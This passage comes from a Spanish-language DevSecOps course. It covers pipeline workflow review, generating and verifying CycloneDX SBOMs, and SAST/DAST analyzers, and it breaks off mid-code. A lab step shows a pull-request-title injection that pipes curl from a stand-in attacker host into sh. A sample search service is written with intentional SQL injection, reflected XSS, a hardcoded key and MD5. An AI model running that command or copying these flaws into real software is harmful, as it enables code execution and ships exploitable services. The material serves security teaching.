Crea `mkdir -p ~/labs/seguridad/devsecops/pipeline/.github/workflows && cd ~/labs/seguridad/devsecops/pipeline`, los dos
workflows y `RevisarWorkflow.java`.

#### Paso 2 · Revisa el inseguro
Ejecuta el revisor sobre `inseguro.yml` y comprueba cinco hallazgos y salida 1.

#### Paso 3 · Revisa el seguro
Ejecuta el revisor sobre `seguro.yml` y comprueba cero hallazgos y salida 0.

#### Paso 4 · Rompe una regla
Quita las líneas `permissions:` y `contents: read` de `seguro.yml` y revisa otra vez. Lee el hallazgo R1.

#### Paso 5 · Explica el ataque
En `ataque.md`, explica paso a paso qué pasaría con `inseguro.yml` si el título del pull request fuera
`"; curl https://atacante.example/x | sh; echo "`.

#### Resumen
- El **principio de menor privilegio** limita lo que puede hacer cada parte del pipeline.
- El **token del pipeline** tiene los **permisos del workflow**; declarados, no heredados.
- Una **acción fijada a un commit** no cambia sin que lo decidas.
- **`pull_request_target`** da secretos y escritura: nunca junto con el código del pull request.
- La **inyección en scripts del pipeline** se evita pasando los datos por `env:`.
- Todo lo que corre en el pipeline es parte de tu **cadena de suministro**.

#### Ejercicio verificable 1
Básico. Agrega a `seguro.yml` el paso `- uses: gradle/actions/setup-gradle@v4` y revisa. ¿Qué hallazgo aparece y con
qué código de salida termina?

Respuesta esperada: `línea 10  MEDIA    R3  gradle/actions/setup-gradle@v4 no está fijada a un commit (SHA de 40
caracteres)` y salida 0: las de severidad media avisan pero no bloquean en esta política.

#### Ejercicio verificable 2
Intermedio. ¿Por qué R5 no marca `run: echo "Revisando $TITULO"` de `seguro.yml`?

Respuesta esperada: porque no contiene `${{ github.event... }}`. GitHub reemplaza `${{ }}` antes de ejecutar el shell;
`$TITULO` lo expande el shell como el valor de una variable, y un valor nunca se interpreta como código en ese
contexto.

#### Ejercicio verificable 3
Reto. Agrega una regla R6 que marque como ALTA cualquier línea `run:` que contenga `${{ secrets.`. Pruébala con
`run: echo ${{ secrets.CLAVE }}`.

Respuesta esperada: con una condición como `l.trim().startsWith("run:") && l.contains("${{ secrets.")`, el revisor
informa `R6` en esa línea y termina con salida 1. Los secretos se pasan por `env:` y solo a los pasos que los usan.

#### En el trabajo
Varios ataques reales a proyectos de código abierto, entre ellos el de la acción `tj-actions/changed-files` en marzo
de 2025, explotaron etiquetas movidas, `pull_request_target` o inyecciones en scripts. Por eso las organizaciones
exigen acciones fijadas, permisos mínimos y revisión obligatoria de los workflows.

</details>

### Tema 4: SBOM e integridad de artefactos: qué hay adentro y si alguien lo cambió · Avanzado · 50 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### Objetivos
Al terminar este tema podrás:
- generar un SBOM en formato CycloneDX a partir de los `.jar` reales de una carpeta;
- identificar un componente por sus metadatos y explicar qué hacer cuando no los trae;
- verificar con los hashes del SBOM que ningún artefacto fue alterado;
- responder «¿estoy afectado?» ante un aviso nuevo consultando el SBOM, sin volver a construir.

**Conceptos clave:** SBOM, CycloneDX, purl, componente, hash de integridad, evidencia de identificación, cadena de suministro de software

#### El problema
Un martes se publica un aviso crítico para una librería de bases de datos. El jefe de seguridad pregunta qué servicios
la usan y en qué versión. Hay treinta servicios desplegados desde hace meses; reconstruirlos todos para mirar sus
dependencias toma un día. Además, alguien pregunta si el `.jar` que corre en producción es el mismo que salió del
pipeline. ¿Cómo se responden las dos preguntas en minutos?

Este tema usa el **hash criptográfico** SHA-256 (Tema 2 del Módulo 0), el **análisis de composición** y el **aviso de
seguridad** (Tema 1 de este módulo).

#### Glosario del tema

**SBOM (lista de materiales de software)**
- **Definición técnica:** inventario legible por máquinas de los componentes de un artefacto de software, con su identidad, versión, origen, hashes y relaciones, generado en la construcción y guardado junto al artefacto.
- **En palabras sencillas:** la etiqueta de ingredientes del programa, con número de lote.
- **Dónde se rompe la comparación:** una etiqueta mal hecha miente; un SBOM generado a partir de nombres de archivo puede equivocarse.
- **Ejemplo:** `sbom.cdx.json` lista `h2` y `sqlite-jdbc` con su purl y su SHA-256.
- **Error típico:** generarlo una vez y no regenerarlo en cada construcción: deja de describir lo que se despliega.

**CycloneDX**
- **Definición técnica:** estándar abierto de OWASP para SBOM, en JSON o XML, con campos para componentes, hashes, licencias, dependencias y vulnerabilidades.
- **En palabras sencillas:** el formato acordado de la etiqueta, para que cualquier herramienta la lea.
- **Dónde se rompe la comparación:** hay otro estándar, SPDX; las herramientas suelen leer los dos.
- **Ejemplo:** `"bomFormat": "CycloneDX", "specVersion": "1.5"`.
- **Error típico:** inventar un formato propio que ninguna herramienta de análisis entiende.

**purl (*package URL*)**
- **Definición técnica:** identificador estándar de un paquete con la forma `pkg:tipo/espacio/nombre@versión`, que distintas herramientas usan para referirse al mismo componente.
- **En palabras sencillas:** la dirección completa del paquete en su tienda.
- **Dónde se rompe la comparación:** dos tiendas pueden tener paquetes con el mismo nombre; el tipo (`maven`, `npm`) los distingue.
- **Ejemplo:** `pkg:maven/org.xerial/sqlite-jdbc@3.41.2.2`.
- **Error típico:** identificar componentes solo por el nombre del archivo, que cualquiera puede renombrar.

**evidencia de identificación**
- **Definición técnica:** la fuente de la que el generador obtuvo la identidad de un componente (metadatos del paquete, manifiesto, nombre de archivo, hash conocido), que indica cuánto confiar en ella.
- **En palabras sencillas:** cómo sabes que el frasco es lo que dice la etiqueta.
- **Dónde se rompe la comparación:** algunas evidencias son más fuertes que otras: `pom.properties` dentro del jar es mejor que el nombre del archivo.
- **Ejemplo:** `sqlite-jdbc` se identificó por `pom.properties`; `h2` no lo trae y se identificó por su manifiesto y el nombre.
- **Error típico:** tratar todas las identificaciones como igual de seguras.

**hash de integridad**
- **Definición técnica:** resumen criptográfico del contenido exacto de un artefacto, guardado en el SBOM o en un registro, que permite comprobar después que el archivo no cambió.
- **En palabras sencillas:** la huella digital del archivo el día que salió de fábrica.
- **Dónde se rompe la comparación:** el hash prueba que el archivo es igual al de la lista, no que la lista sea auténtica; para eso se firma el SBOM.
- **Ejemplo:** `8dae62d22db8982c…` para `h2-2.3.232.jar`; un byte agregado lo cambia a `432658589de4b47b…`.
- **Error típico:** usar MD5 o SHA-1 para integridad frente a un atacante: ya se pueden fabricar colisiones.

**cadena de suministro de software**
- **Definición técnica:** todos los participantes y pasos por los que pasa el software desde el código fuente hasta producción: dependencias, repositorios de paquetes, sistema de construcción, registro de artefactos y despliegue.
- **En palabras sencillas:** el camino del producto desde los proveedores hasta la góndola.
- **Dónde se rompe la comparación:** en un camino físico ves los camiones; en software, un paso comprometido no deja huella si nadie comprueba los hashes.
- **Ejemplo:** el SBOM conecta la construcción (qué entró) con el despliegue (qué corre).
- **Error típico:** confiar en el registro de paquetes sin comprobar sumas ni firmas.

#### ► CÓMO FUNCIONA
El generador recorre los `.jar` de una carpeta. Para cada uno busca `META-INF/maven/.../pom.properties`; si existe, de
ahí salen grupo, artefacto y versión. Si no, usa el manifiesto y el nombre del archivo, y lo registra como evidencia más
débil. Calcula el SHA-256 de cada jar y escribe el SBOM. Después, el mismo SBOM sirve para dos consultas: comparar los
hashes contra los archivos que hay en un servidor, y buscar un purl con una versión anterior a la corregida.



#### Problema resuelto 4.1
Genera el SBOM de la carpeta con los dos `.jar` que usas en los laboratorios (H2 y sqlite-jdbc), verifica la
integridad y consulta dos avisos.

**Razonamiento:**
1. `JarFile` lee el `.jar` como un ZIP con manifiesto; se buscan sus metadatos de Maven.
2. El JSON se escribe a mano para ver su estructura; un generador real usa una librería de CycloneDX.
3. La consulta usa un aviso real: `CVE-2023-32697` afecta a sqlite-jdbc desde 3.6.14.1 hasta 3.41.2.1 y está corregido
   en 3.41.2.2, la versión que usan los laboratorios del curso SQL.
4. Para la verificación negativa se copia la carpeta y se agrega un byte a un jar.

```java
// Sbom.java — genera un SBOM CycloneDX de una carpeta de .jar, verifica su integridad y responde «¿estoy afectado?»
import java.security.MessageDigest;
import java.util.HexFormat;
import java.util.jar.JarFile;
import java.util.regex.Pattern;

record Componente(String grupo, String artefacto, String version, String sha256, String evidencia) {
    String purl() {
        return "pkg:maven/" + grupo + "/" + artefacto + "@" + version;
    }
}

String sha256(Path archivo) throws Exception {
    return HexFormat.of().formatHex(MessageDigest.getInstance("SHA-256").digest(Files.readAllBytes(archivo)));
}

/** Identifica el jar: primero por pom.properties; si no lo trae, por el manifiesto y el nombre del archivo. */
Componente identificar(Path jar) throws Exception {
    try (var j = new JarFile(jar.toFile())) {
        var pom = j.stream().filter(e -> e.getName().matches("META-INF/maven/.+/pom\\.properties")).findFirst();
        if (pom.isPresent()) {
            var p = new Properties();
            try (var in = j.getInputStream(pom.get())) {
                p.load(in);
            }
            return new Componente(p.getProperty("groupId"), p.getProperty("artifactId"), p.getProperty("version"),
                    sha256(jar), "pom.properties");
        }
        var m = j.getManifest().getMainAttributes();
        String version = m.getValue("Implementation-Version");
        String nombre = jar.getFileName().toString().replace(".jar", "");
        String artefacto = nombre.substring(0, nombre.length() - version.length() - 1);
        return new Componente(m.getValue("Automatic-Module-Name"), artefacto, version, sha256(jar),
                "manifiesto y nombre de archivo");
    }
}

void generar(Path carpeta, Path salida) throws Exception {
    List<Componente> componentes = new ArrayList<>();
    try (var archivos = Files.list(carpeta)) {
        for (Path jar : archivos.filter(p -> p.toString().endsWith(".jar")).sorted().toList()) {
            componentes.add(identificar(jar));
        }
    }
    StringBuilder json = new StringBuilder("{\n  \"bomFormat\": \"CycloneDX\",\n  \"specVersion\": \"1.5\",\n  \"components\": [\n");
    for (int i = 0; i < componentes.size(); i++) {
        Componente c = componentes.get(i);
        json.append("    {\"type\": \"library\", \"group\": \"").append(c.grupo()).append("\", \"name\": \"")
                .append(c.artefacto()).append("\", \"version\": \"").append(c.version()).append("\",\n")
                .append("     \"purl\": \"").append(c.purl()).append("\",\n")
                .append("     \"hashes\": [{\"alg\": \"SHA-256\", \"content\": \"").append(c.sha256()).append("\"}],\n")
                .append("     \"properties\": [{\"name\": \"evidencia\", \"value\": \"").append(c.evidencia()).append("\"}]}")
                .append(i < componentes.size() - 1 ? ",\n" : "\n");
    }
    json.append("  ]\n}\n");
    Files.writeString(salida, json);
    IO.println("SBOM con " + componentes.size() + " componentes en " + salida);
    componentes.forEach(c -> IO.println("  " + c.purl() + "  (" + c.evidencia() + ")"));
}

static final Pattern ENTRADA = Pattern.compile(
        "\"name\": \"([^\"]+)\", \"version\": \"([^\"]+)\",\\s*\"purl\": \"([^\"]+)\",\\s*\"hashes\": \\[\\{\"alg\": \"SHA-256\", \"content\": \"([0-9a-f]{64})\"");

void verificar(Path sbom, Path carpeta) throws Exception {
    var m = ENTRADA.matcher(Files.readString(sbom));
    int malos = 0;
    while (m.find()) {
        Path jar = carpeta.resolve(m.group(1) + "-" + m.group(2) + ".jar");
        String real = Files.exists(jar) ? sha256(jar) : "no existe";
        boolean ok = real.equals(m.group(4));
        if (!ok) malos++;
        IO.println((ok ? "  íntegro   " : "  ALTERADO  ") + jar.getFileName() + (ok ? "" : "  esperado " + m.group(4).substring(0, 16)
                + "…, calculado " + (real.length() > 16 ? real.substring(0, 16) + "…" : real)));
    }
    System.exit(malos == 0 ? 0 : 1);
}

void consultar(Path sbom, String purlBase, String corregida) throws Exception {
    var m = ENTRADA.matcher(Files.readString(sbom));
    boolean encontrado = false;
    while (m.find()) {
        if (!m.group(3).startsWith(purlBase + "@")) continue;
        encontrado = true;
        String version = m.group(2);
        boolean afectado = Arrays.compare(partes(version), partes(corregida)) < 0;
        IO.println("  " + m.group(3) + (afectado ? "  AFECTADO: actualizar a " + corregida : "  no afectado (corregida en " + corregida + ")"));
    }
    if (!encontrado) IO.println("  " + purlBase + " no aparece en el SBOM: no afectado");
}

int[] partes(String version) {
    return Arrays.stream(version.split("\\.")).mapToInt(Integer::parseInt).toArray();
}

void main(String[] args) throws Exception {
    switch (args[0]) {
        case "generar" -> generar(Path.of(args[1]), Path.of(args[2]));
        case "verificar" -> verificar(Path.of(args[1]), Path.of(args[2]));
        case "consultar" -> consultar(Path.of(args[1]), args[2], args[3]);
        default -> throw new IllegalArgumentException(args[0]);
    }
}
```

```text
$ java Sbom.java generar libs sbom.cdx.json
SBOM con 2 componentes en sbom.cdx.json
  pkg:maven/com.h2database/h2@2.3.232  (manifiesto y nombre de archivo)
  pkg:maven/org.xerial/sqlite-jdbc@3.41.2.2  (pom.properties)
```

```json
{
  "bomFormat": "CycloneDX",
  "specVersion": "1.5",
  "components": [
    {"type": "library", "group": "com.h2database", "name": "h2", "version": "2.3.232",
     "purl": "pkg:maven/com.h2database/h2@2.3.232",
     "hashes": [{"alg": "SHA-256", "content": "8dae62d22db8982c3dcb3826edb9c727c5d302063a67eef7d63d82de401f07d3"}],
     "properties": [{"name": "evidencia", "value": "manifiesto y nombre de archivo"}]},
    {"type": "library", "group": "org.xerial", "name": "sqlite-jdbc", "version": "3.41.2.2",
     "purl": "pkg:maven/org.xerial/sqlite-jdbc@3.41.2.2",
     "hashes": [{"alg": "SHA-256", "content": "0cdab410947e04b6743df99cf1543267ddd107357d6f76948d145be590fd497d"}],
     "properties": [{"name": "evidencia", "value": "pom.properties"}]}
  ]
}
```

```text
$ java Sbom.java verificar sbom.cdx.json libs; echo "salida: $?"
  íntegro   h2-2.3.232.jar
  íntegro   sqlite-jdbc-3.41.2.2.jar
salida: 0
```

```text
$ java Sbom.java consultar sbom.cdx.json pkg:maven/org.xerial/sqlite-jdbc 3.41.2.2
  pkg:maven/org.xerial/sqlite-jdbc@3.41.2.2  no afectado (corregida en 3.41.2.2)
$ java Sbom.java consultar sbom.cdx.json pkg:maven/org.apache.logging.log4j/log4j-core 2.17.1
  pkg:maven/org.apache.logging.log4j/log4j-core no aparece en el SBOM: no afectado
```

```text
$ cp -r libs libs-alterada && printf 'x' >> libs-alterada/h2-2.3.232.jar
$ java Sbom.java verificar sbom.cdx.json libs-alterada; echo "salida: $?"
  ALTERADO  h2-2.3.232.jar  esperado 8dae62d22db8982c…, calculado 432658589de4b47b…
  íntegro   sqlite-jdbc-3.41.2.2.jar
salida: 1
```

**Explicación por partes.**
- Líneas 18–35: `identificar` prefiere `pom.properties`. H2 no lo trae, así que el grupo sale del atributo
  `Automatic-Module-Name` del manifiesto (`com.h2database`) y el artefacto, del nombre del archivo sin la versión.
- La propiedad `evidencia` deja constancia de esa diferencia: si alguien renombra el archivo de H2, el SBOM se
  equivocaría; con sqlite-jdbc, no.
- Líneas 64–76: `verificar` recalcula cada hash y compara. Un solo byte agregado cambia el SHA-256 por completo, y la
  verificación termina con 1.
- Líneas 78–89: `consultar` responde la pregunta del martes leyendo un archivo, sin compilar nada. Los laboratorios
  usan exactamente la versión corregida de `CVE-2023-32697`.

> **Error común.** Generar el SBOM desde el código fuente y no desde el artefacto construido. El código dice qué
> pediste; el artefacto contiene lo que resolvió la construcción, que es lo que corre.

> **Error común.** Guardar el SBOM en un lugar que el mismo atacante puede modificar. Si alguien cambia un jar y
> también su hash en el SBOM, la verificación pasa. Por eso el SBOM se firma (por ejemplo, con Sigstore `cosign`) y se
> guarda junto al artefacto en un registro con control de acceso.

> **Buena práctica.** Guarda un SBOM por cada versión desplegada. Cuando llega un aviso, buscas en todos los SBOM y
> respondes con la lista exacta de servicios y versiones afectados.

> **Prevenir errores.** Verifica los hashes en el despliegue, no solo en la construcción: el ataque puede ocurrir en
> el registro de artefactos o en el camino.

#### Del laboratorio a producción
El plugin `org.cyclonedx.bom` de Gradle genera el SBOM CycloneDX del proyecto con el árbol resuelto; Syft y Trivy lo
generan desde imágenes de contenedor. Dependency-Track guarda los SBOM de todos los servicios y avisa cuando aparece un
aviso nuevo para algún componente. Sigstore firma artefactos y SBOM, y el marco SLSA define niveles de garantía para
toda la cadena de construcción.

#### Checkpoint 4.1
Si alguien reemplaza `h2-2.3.232.jar` por otro archivo con el mismo nombre pero de otra versión, ¿qué detecta
`verificar`? ¿Y `consultar`?

Respuesta: `verificar` lo marca `ALTERADO` porque el hash no coincide. `consultar` no lo detecta: lee la versión que
quedó escrita en el SBOM, no la del archivo nuevo. Por eso primero se verifica la integridad y después se confía en lo
que dice el SBOM.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Paso 1 · Prepara la carpeta
Crea `mkdir -p ~/labs/seguridad/devsecops/sbom/libs && cd ~/labs/seguridad/devsecops/sbom`, copia a `libs` los dos
`.jar` de `~/herramientas` y crea `Sbom.java`.

#### Paso 2 · Genera el SBOM
Ejecuta `java Sbom.java generar libs sbom.cdx.json` y comprueba los dos purl y sus evidencias.

#### Paso 3 · Verifica
Ejecuta la verificación y comprueba dos `íntegro` y salida 0.

#### Paso 4 · Altera un jar
Copia `libs` a `libs-alterada`, agrega un byte a un jar y verifica. Comprueba `ALTERADO` y salida 1.

#### Paso 5 · Responde al aviso
Ejecuta las dos consultas del Problema resuelto 4.1 y escribe en `respuesta-aviso.md` qué servicios estarían afectados.

#### Resumen
- Un **SBOM** lista los componentes de un artefacto con su identidad y sus hashes; **CycloneDX** es un formato estándar.
- El **purl** identifica cada componente sin ambigüedad.
- La **evidencia de identificación** dice cuánto confiar en cada identidad.
- El **hash de integridad** detecta cualquier cambio en el artefacto.
- Con SBOM guardados, la pregunta «¿estoy afectado?» se responde en minutos en toda la **cadena de suministro**.

#### Ejercicio verificable 1
Básico. Consulta `pkg:maven/com.h2database/h2` con una versión corregida hipotética `2.4.240`. ¿Qué responde?

Respuesta esperada: `pkg:maven/com.h2database/h2@2.3.232  AFECTADO: actualizar a 2.4.240`, porque 2.3.232 es menor.

#### Ejercicio verificable 2
Intermedio. Renombra `libs/h2-2.3.232.jar` a `libs/h2-9.9.9.jar` y genera el SBOM. ¿Qué versión registra para H2?

Respuesta esperada: `pkg:maven/com.h2database/@2.3.232  (manifiesto y nombre de archivo)`. La versión sale del
manifiesto (`Implementation-Version`), pero el artefacto se calcula quitando la versión del final del nombre, y
`h2-9.9.9` no termina en `2.3.232`: el nombre del artefacto queda vacío. Por eso la evidencia «manifiesto y nombre de
archivo» es débil y conviene que los artefactos traigan sus metadatos.

#### Ejercicio verificable 3
Reto. Agrega al SBOM un componente con `"hashes"` vacío y ejecuta `verificar`. ¿Lo informa?

Respuesta esperada: no: la expresión de `verificar` solo reconoce componentes con un hash SHA-256, así que el
componente sin hash se salta en silencio. Un verificador serio cuenta los componentes del SBOM y falla si alguno no se
pudo verificar: lo que no se comprueba no está verificado.

#### En el trabajo
Las regulaciones y los clientes grandes piden cada vez más un SBOM por cada versión entregada, y desde Log4Shell los
equipos de seguridad responden a cada aviso consultando SBOM. En una revisión de un pipeline, las preguntas son: «¿se
genera un SBOM en cada construcción?», «¿se firma?» y «¿se verifican los hashes al desplegar?».

</details>

### Tema 5: SAST y DAST: buscar defectos en el código y en el servicio en ejecución · Avanzado · 60 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### Objetivos
Al terminar este tema podrás:
- construir un analizador estático que recorre el árbol de sintaxis de Java y encuentra patrones peligrosos;
- construir un analizador dinámico que sondea un servicio en ejecución sin mirar su código;
- comparar qué encuentra cada uno, qué se le escapa y dónde va cada uno en el pipeline;
- corregir los defectos y comprobar con los dos analizadores que desaparecieron.

**Conceptos clave:** SAST, DAST, SCA, CWE, falso positivo y falso negativo, sonda, cabeceras de seguridad

#### El problema
El servicio de búsqueda de productos pasó la revisión de código y las pruebas unitarias. Tiene una consulta SQL
armada con `+`, devuelve en el HTML lo que el usuario escribió y guarda la clave de administración en una constante.
Ninguna prueba falla, porque ninguna prueba busca eso. ¿Qué herramienta encuentra cada defecto, y cuál no lo vería
nunca?

Este tema usa la **inyección SQL**, el **XSS** y la **validación de entrada** (Tema 4 del Módulo 0), la **consulta
parametrizada** (SQL, Módulo 0, Tema 2) y el árbol de sintaxis de `javac` de las fitness functions (Arquitectura,
Módulo 0, Tema 2).

#### Glosario del tema

**SAST (prueba estática de seguridad de aplicaciones)**
- **Definición técnica:** análisis del código fuente, del bytecode o del árbol de sintaxis, sin ejecutar el programa, para encontrar patrones asociados a vulnerabilidades.
- **En palabras sencillas:** revisar los planos del edificio buscando puertas sin cerradura.
- **Dónde se rompe la comparación:** los planos no muestran cómo se usa el edificio: el SAST no sabe qué datos llegarán ni qué está configurado en el servidor.
- **Ejemplo:** `Sast.java` encuentra el SQL concatenado en la línea 31 de `ServicioBusqueda.java`.
- **Error típico:** esperar que el SAST encuentre todo: solo encuentra los patrones para los que tiene regla.

**DAST (prueba dinámica de seguridad de aplicaciones)**
- **Definición técnica:** análisis de una aplicación en ejecución desde afuera, enviando peticiones de prueba y observando respuestas, códigos y cabeceras.
- **En palabras sencillas:** probar las puertas del edificio ya construido, una por una.
- **Dónde se rompe la comparación:** solo prueba las puertas que encuentra: una ruta que el escáner no conoce no se prueba.
- **Ejemplo:** `Dast.java` envía una etiqueta HTML y una comilla, y lee lo que vuelve.
- **Error típico:** ejecutarlo contra producción sin autorización: las sondas pueden escribir datos o activar alarmas.

**SCA**
- **Definición técnica:** análisis de los componentes de terceros contra bases de avisos (Tema 1 de este módulo).
- **En palabras sencillas:** revisar los materiales comprados, no los que fabricaste.
- **Dónde se rompe la comparación:** un componente puede ser vulnerable y no estar al alcance de ningún dato externo en tu aplicación.
- **Ejemplo:** `Sca.java` y el SBOM del Tema 4.
- **Error típico:** confundirlo con SAST: el SCA no lee tu código.

**CWE (enumeración de debilidades comunes)**
- **Definición técnica:** catálogo de tipos de debilidad de software mantenido por MITRE, con un número por tipo; un CVE es un caso concreto, un CWE es la clase de error.
- **En palabras sencillas:** el nombre del tipo de defecto; el CVE es el expediente de un caso.
- **Dónde se rompe la comparación:** un mismo defecto puede encajar en varios CWE de distinto nivel de detalle.
- **Ejemplo:** CWE-89 (inyección SQL), CWE-79 (XSS), CWE-798 (credenciales en el código), CWE-328 (hash débil).
- **Error típico:** clasificar todo como «vulnerabilidad» sin tipo: el tipo dice cómo se corrige.

**falso positivo y falso negativo**
- **Definición técnica:** un falso positivo es un hallazgo informado que no es un problema real; un falso negativo es un problema real que la herramienta no informa.
- **En palabras sencillas:** una alarma sin incendio, y un incendio sin alarma.
- **Dónde se rompe la comparación:** demasiadas alarmas falsas hacen que la gente apague la alarma, y entonces todo se vuelve falso negativo.
- **Ejemplo:** el SAST de este tema no tiene regla de XSS: el reflejo es un falso negativo para él.
- **Error típico:** medir una herramienta solo por cuántos hallazgos produce.

**sonda**
- **Definición técnica:** petición diseñada para provocar un comportamiento observable si existe una debilidad, sin causar daño: un marcador único, un carácter especial, una cabecera inesperada.
- **En palabras sencillas:** tocar la puerta y ver si se abre, sin forzarla.
- **Dónde se rompe la comparación:** una sonda que no produce efecto no prueba que no haya debilidad, solo que esa sonda no la activó.
- **Ejemplo:** `<b id=dast7>x</b>` vuelve sin escapar; `'` produce un `500` con el mensaje de H2.
- **Error típico:** usar cargas destructivas (`DROP TABLE`) para «demostrar» la inyección.

**cabeceras de seguridad**
- **Definición técnica:** cabeceras de respuesta HTTP que activan defensas del navegador, como `Content-Security-Policy` (de dónde se permite cargar y ejecutar contenido) y `X-Content-Type-Options: nosniff` (no adivinar el tipo de contenido).
- **En palabras sencillas:** instrucciones al navegador sobre qué no debe confiar.
- **Dónde se rompe la comparación:** son una segunda línea de defensa: no corrigen el XSS, limitan su daño.
- **Ejemplo:** `ServicioSeguro.java` envía las dos; el DAST las comprueba.
- **Error típico:** poner una CSP permisiva (`unsafe-inline`) para que «no se rompa nada», con lo que pierde casi todo su efecto.

#### ► CÓMO FUNCIONA
El SAST le pide a `javac` el árbol de sintaxis del archivo y lo recorre con un visitante: en cada llamada mira el
nombre del método y la forma de sus argumentos; en cada variable, su nombre y su valor inicial. El DAST arranca sin
código: envía sondas al servicio en marcha y decide por lo que vuelve. Cada uno ve cosas que el otro no ve.



#### Problema resuelto 5.1
Analiza el servicio vulnerable con los dos analizadores.

**Razonamiento:**
1. `JavacTask.parse()` da el árbol sin compilar del todo; alcanza para leer la forma del código. Las posiciones se
   convierten en números de línea con el `LineMap`.
2. Regla SQL: una llamada a `executeQuery`, `executeUpdate` o `execute` cuyo primer argumento es una suma (`+`). Regla
   de hash: `MessageDigest.getInstance` con `"MD5"` o `"SHA-1"`. Regla de secreto: una variable con nombre de clave
   inicializada con un texto literal.
3. El DAST envía tres cosas: un marcador HTML único, una comilla y una lectura de cabeceras.
4. El servicio necesita H2 en el classpath; el analizador estático no, porque no ejecuta nada.

```java
// ServicioBusqueda.java — servicio de búsqueda de productos con tres defectos de seguridad a propósito
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpServer;
import java.net.InetSocketAddress;
import java.net.URLDecoder;
import java.security.MessageDigest;
import java.sql.Connection;
import java.sql.DriverManager;
import java.util.HexFormat;

static final String CLAVE_ADMIN = "Admin-2026!";            // defecto 1: secreto escrito en el código
static Connection base;

void main() throws Exception {
    base = DriverManager.getConnection("jdbc:h2:mem:catalogo");
    try (var st = base.createStatement()) {
        st.execute("CREATE TABLE producto (sku VARCHAR(10), nombre VARCHAR(40))");
        st.execute("INSERT INTO producto VALUES ('A-1', 'Caja grande'), ('B-7', 'Cinta')");
    }
    HttpServer s = HttpServer.create(new InetSocketAddress("127.0.0.1", 8070), 0);
    s.createContext("/buscar", this::buscar);
    s.start();
    IO.println("búsqueda en 127.0.0.1:8070; huella de la clave: " + huella(CLAVE_ADMIN));
}

void buscar(HttpExchange ex) throws IOException {
    String q = URLDecoder.decode(ex.getRequestURI().getRawQuery().replace("q=", ""), StandardCharsets.UTF_8);
    StringBuilder html = new StringBuilder("<h1>Resultados para " + q + "</h1><ul>");   // defecto 2: sin escapar
    int codigo = 200;
    try (var st = base.createStatement();
         var rs = st.executeQuery("SELECT nombre FROM producto WHERE nombre LIKE '%" + q + "%'")) { // defecto 3
        while (rs.next()) html.append("<li>").append(rs.getString(1)).append("</li>");
    } catch (Exception error) {
        codigo = 500;
        html.append("<pre>").append(error.getMessage()).append("</pre>");                // y filtra el error
    }
    byte[] cuerpo = html.append("</ul>").toString().getBytes(StandardCharsets.UTF_8);
    ex.getResponseHeaders().set("Content-Type", "text/html; charset=utf-8");
    ex.sendResponseHeaders(codigo, cuerpo.length);
    try (var salida = ex.getResponseBody()) {
        salida.write(cuerpo);
    }
}

String huella(String texto) throws Exception {
    return HexFormat.of().formatHex(MessageDigest.getInstance("MD5").digest(texto.getBytes(StandardCharsets.UTF_8)));
}
```

```java
// Sast.java — análisis estático: recorre el árbol de sintaxis de un .java y busca tres patrones peligrosos
import com.sun.source.tree.*;
import com.sun.source.util.JavacTask;
import com.sun.source.util.SourcePositions;
import com.sun.source.util.TreePathScanner;
import com.sun.source.util.Trees;
import javax.tools.ToolProvider;

void main(String[] args) throws Exception {
    var compilador = ToolProvider.getSystemJavaCompiler();
    try (var archivos = compilador.getStandardFileManager(null, null, StandardCharsets.UTF_8)) {
        var unidades = archivos.getJavaFileObjects(args[0]);
        var tarea = (JavacTask) compilador.getTask(null, archivos, d -> { }, List.of("--release", "25"), null, unidades);
        SourcePositions pos = Trees.instance(tarea).getSourcePositions();
        List<String> hallazgos = new ArrayList<>();
        for (CompilationUnitTree unidad : tarea.parse()) {
            var mapa = unidad.getLineMap();
            new TreePathScanner<Void, Void>() {
                long linea(Tree t) {
                    return mapa.getLineNumber(pos.getStartPosition(unidad, t));
                }

                @Override
                public Void visitMethodInvocation(MethodInvocationTree llamada, Void p) {
                    String metodo = llamada.getMethodSelect().toString();
                    boolean esSql = metodo.endsWith(".executeQuery") || metodo.endsWith(".executeUpdate") || metodo.endsWith(".execute");
                    if (esSql && !llamada.getArguments().isEmpty()
                            && llamada.getArguments().getFirst().getKind() == Tree.Kind.PLUS) {
                        hallazgos.add("línea " + linea(llamada) + "  CWE-89  SQL armado concatenando texto: " + metodo);
                    }
                    if (metodo.endsWith("MessageDigest.getInstance") && llamada.getArguments().getFirst() instanceof LiteralTree lit
                            && List.of("MD5", "SHA-1").contains(String.valueOf(lit.getValue()))) {
                        hallazgos.add("línea " + linea(llamada) + "  CWE-328 algoritmo de hash débil: " + lit.getValue());
                    }
                    return super.visitMethodInvocation(llamada, p);
                }

                @Override
                public Void visitVariable(VariableTree variable, Void p) {
                    String nombre = variable.getName().toString().toLowerCase();
                    if (variable.getInitializer() instanceof LiteralTree lit && lit.getValue() instanceof String
                            && (nombre.contains("clave") || nombre.contains("password") || nombre.contains("secret"))) {
                        hallazgos.add("línea " + linea(variable) + "  CWE-798 secreto escrito en el código: " + variable.getName());
                    }
                    return super.visitVariable(variable, p);
                }
            }.scan(unidad, null);
        }
        IO.println(args[0] + ": " + hallazgos.size() + " hallazgo(s)");
        hallazgos.forEach(h -> IO.println("  " + h));
        System.exit(hallazgos.isEmpty() ? 0 : 1);
    }
}
```

```java
// Dast.java — análisis dinámico: ataca el servicio en ejecución desde afuera, sin mirar el código
import java.net.URI;
import java.net.URLEncoder;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;

static final HttpClient CLIENTE = HttpClient.newHttpClient();

HttpResponse<String> buscar(String base, String q) throws Exception {
    var uri = URI.create(base + "/buscar?q=" + URLEncoder.encode(q, StandardCharsets.UTF_8));
    return CLIENTE.send(HttpRequest.newBuilder(uri).build(), HttpResponse.BodyHandlers.ofString());
}

void main(String[] args) throws Exception {
    String base = args.length > 0 ? args[0] : "http://127.0.0.1:8070";
    List<String> hallazgos = new ArrayList<>();

    String marca = "<b id=dast7>x</b>";                                       // sonda de reflejo
    var r1 = buscar(base, marca);
    if (r1.body().contains(marca)) hallazgos.add("XSS reflejado: la entrada vuelve en el HTML sin escapar");

    var r2 = buscar(base, "'");                                                // sonda de inyección SQL
    if (r2.statusCode() >= 500) {
        String primera = r2.body().replaceAll("(?s).*<pre>", "").lines().findFirst().orElse("");
